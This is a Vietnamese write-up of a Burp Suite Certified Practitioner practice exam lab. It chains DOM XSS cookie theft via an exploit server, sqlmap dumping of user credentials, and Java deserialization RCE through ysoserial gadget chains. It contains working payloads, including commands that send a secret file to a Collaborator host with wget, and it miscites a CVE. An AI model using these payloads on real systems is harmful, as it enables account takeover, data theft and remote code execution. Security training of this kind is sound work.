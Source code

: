 # Write-up for Burp Suite Certified Practitioner Practice Exam

Author: `HoangNCH`

### 1. Khai thác DOM-based XSS tại chức năng "Search the blog":

##### a) Initial reconnaissance:

- Sử dụng DOM Invader để inject canary vào form, ta phát hiện được các source và sink như sau:

![image-20211213222734274](https://user-images.githubusercontent.com/61876488/146169208-1eb515aa-faf9-4919-9085-d5ada6a2e7e0.png)

- Trong đó có sink chứa hàm `eval` có thể chạy được script js, còn source nằm ở hàm `location.search` sẽ đọc nội dung phần querystring của url hiện tại (`?query=xss2%27"<>`), click vào stack trace để xem sink và source nằm ở đâu trong js code:

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);  // sink
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);				 // source
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        ...
}

```

- `window.location.search` có thể lấy data tùy ý mà ta nhập vào từ url parameter `query`, sau đó khi `xhr.send()` thì hàm `xhr.onreadystatechange` sẽ chạy, dẫn đến biến `searchResultsObj` được khởi tạo và được gán bằng response của server khi request `"GET", path + window.location.search` được gửi. Vấn đề là chúng ta chưa biết `path` là gì. Tìm trong HTTP History của Burp Suite ta có:

![image-20211213224603286](https://user-images.githubusercontent.com/61876488/146169329-819e5586-94fa-4eed-b0f6-be11cde765f5.png)

- Như vậy `path=="/search"` và  `searchTerm=="xss2'"<>"`, chính là canary mà ta truyền vào. Response ở hình trên ở dạng JSON và do các kí tự truyền vào có `"` nên định dạng JSON bị lỗi, do đó mục `..search results for..` không hiện ra gì. Chúng ta cần phải escape nó.

##### b) Escape and bypass:

- Dùng payload `"+alert(1)}//` để escape JSON.

![image-20211213225524527](https://user-images.githubusercontent.com/61876488/146169366-6806c816-fc92-4168-a9b7-2d46d778e568.png)

- Do web app lại blacklist`document.cookie` nên ta chỉ có thể `alert(1)`:

![image-20211213225726052](https://user-images.githubusercontent.com/61876488/146169426-e2946d9c-0bb5-4c07-8276-4cbbf917eaa1.png)

- Nhưng ta vẫn có thể bypass bằng cách dùng `document["cookie"]`:

![image-20211213225835470](https://user-images.githubusercontent.com/61876488/146169487-b96dde85-3d72-415b-983a-b1346d8b70ad.png)

- Web app còn blacklist cả dấu `.`, vốn hay được dùng trong url. Thử payload `"+alert(' . ')}//`:

![image-20211213230124046](https://user-images.githubusercontent.com/61876488/146169515-c176c379-172f-48b5-abbf-ce883c7251fb.png)

- Nhưng chúng ta có thể url encode các dấu chấm thành `%2e` (CVE-2021-41773). Thử payload `"+(location="https://www%2ew3schools%2ecom/?a=1")}//`:

![image-20211213230633913](https://user-images.githubusercontent.com/61876488/146169608-19a26787-cde1-4ea3-9d6d-4f881f86396b.png)

##### 3) Exploit:

- Sử dụng exploit server của bài lab, tại `body` sử dụng script mẫu như sau:

```html
<script>
location='https://<lab id>.web-security-academy.net/?query=%22%2B%28location%3D%22https%3A%2F%2Fexploit-<exloit server id>%252eweb-security-academy%252enet%2F%2F%3Fcookie%3D%22%2Bdocument%5B%22cookie%22%5D%29%7D%2F%2F';
</script>
```

- Sau khi bấm `deliver exploit to victim` rồi `view exploit` thì vào `access log` kiểm tra:

![image-20211213231136699](https://user-images.githubusercontent.com/61876488/146169678-f5827df6-b5a3-4952-a324-75fee4c8e571.png)

- Check access log chúng ta thấy một cookie "lạ", không phải nằm trên client side của chúng ta mà có lẽ là của victim (được highlight bên dưới):

![image-20211213231618624](https://user-images.githubusercontent.com/61876488/146169729-99373e9e-3644-4a92-9249-2608900db836.png)

- Copy cookie này rồi thay thế cho cookie hiện tại thì ta chiếm được account `carlos`:

![image-20211213231748164](https://user-images.githubusercontent.com/61876488/146169768-44764d26-ca61-41c6-9fc2-c5e99478596f.png)

### 2) Khai thác SQL Injection tại chức năng "Advanced search": 

##### a) Initial reconnaissance:

- Sau khi login vào thì chúng ta unlock được chức năng "Advanced search":
- Thử search tại API `GET /advanced_search` với url parameter `sort-by=DATE'`thì server bị lỗi SQL:

![image-20211213233700777](https://user-images.githubusercontent.com/61876488/146169796-d3fef678-23b1-477a-88d8-39081c9ab40a.png)

- Như vậy web app chắc chắn bị SQLi, đồng thời ta biết được database mà nó đang sử dụng là **PostgreSQL**. Thử payload `(case when (1=0) then 2 else 1/0 end)` để comfirm có thể khai thác boolean-based SQLi.

##### b) SQLmap fuzzing:

- Sử dụng SQLmap với endpoint và url parameter đã biết bị dính SQLi là `sort-by` (đánh dấu bằng dấu `*`): 

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump
```

![image-20211213233720286](https://user-images.githubusercontent.com/61876488/146169833-e2bd1f02-c3e3-4a65-92e3-ad0a09598ee2.png)

![image-20211214095628881](https://user-images.githubusercontent.com/61876488/146169883-85286f24-35bf-4baa-a63d-546af660baf4.png)

![image-20211214102141470](https://user-images.githubusercontent.com/61876488/146169901-54b0bbf4-51e2-4aeb-9458-2c0a89140653.png)

- Sau khi enumerate bằng SQLmap thì có được current database là `public`, có 1 table "khả nghi" là `users`, thử dump table này thì thấy nó có 2 column là `username` và `password`. Do đó tiếp tục dùng lệnh SQLmap sau để dump 2 column kia:

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump -D public -T users -C username,password
```

![image-20211214105324719](https://user-images.githubusercontent.com/61876488/146170101-864359b4-3ba1-4978-802b-ab779924814b.png)

- Lấy được `administrator | cjbnksa6guo0y4a96o04 `, account có role admin do đó chúng ta có thể unlock được chức năng "Admin panel":

![image-20211214105637238](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214105637238.png)

### 3) Khai thác java deserialization tại chức năng "Admin panel":

##### a) Initial reconnaissance:

- Để ý thấy khi vào chức năng này thì tại client side chúng ta được cấp cho một cookie là "admin-prefs":

![image-20211214112246704](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214112246704.png)

- Nếu thay đổi cookie này tùy ý thì:

![image-20211214233523121](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214233523121.png)

- Decode này bằng **Decoder** của Burp Suite ta biết được quá trình encode của cookie sau khi serialize là : gzip encode -->  base64 encode --> url encode:

![image-20211214123526651](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214123526651.png)

- Trong plain text trên có đoạn `lab.display.admin.prefs.JavaPrefsCookieStrategy`. Nhiều khả năng web app này sẽ bị dính vuln **java deserialization** tại cookie  `admin-prefs` này.

##### b) Create pre-built gadget chain with ysoserial and exploit:

- Sau khi thử tạo các gadget chain bằng tool [ysoserial](https://github.com/frohoff/ysoserial) theo sample như sau:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar <payload types> '[command]' | gzip -f | base64 -w0
```

![image-20211215154314051](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215154314051.png)

- Ta phát hiện có một payload type có thể dùng được là **CommonsCollections6** vì nó trả về status code 200, trong khi các payload type khác đều trả về status code 500 và **ClassNotFoundException** (các payload type khác có thể có exception khác, dùng phương pháp thử rồi loại suy thông qua exeption để tìm ra payload type phù hợp). 

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 'curl https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211214173728534](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214173728534.png)

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'curl -X POST -d Hello https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211215153848790](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215153848790.png)

![image-20211215163312473](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215163312473.png)

- Điều này có nghĩa là gadget chain tạo với payload type **CommonsCollections6** là hợp lệ và chúng ta có thể RCE thông qua gadget chain này. tạo payload như trong hình:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'wget --post-file /home/carlos/secret c2ft9nahenbthexwc6hd0c9m4da3ys.burpcollaborator.net' | gzip -f | base64 -w0
```



![image-20211215154458664](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215154458664.png)

- Lưu ý trước khi cho payload trên vào cookie `admin-prefs` thì phải URL encode nó:

![image-20211215154844486](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215154844486.png)

- Cuối cùng thì chúng ta gửi request và poll Burp Collaborator Client và đợi kết quả:

![image-20211215155200561](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215155200561.png)

###### Lưu ý: Cách khai thác Java Deserialize ở trên dựa vào bài lab của PortSwigger là [Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons).

##### 4) Kết quả Practice Exam BSCP:

![image-20211215155436265](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215155436265.png)

![image-20211215155444115](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215155444115.png)

![image-20211215165432252](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215165432252.png)

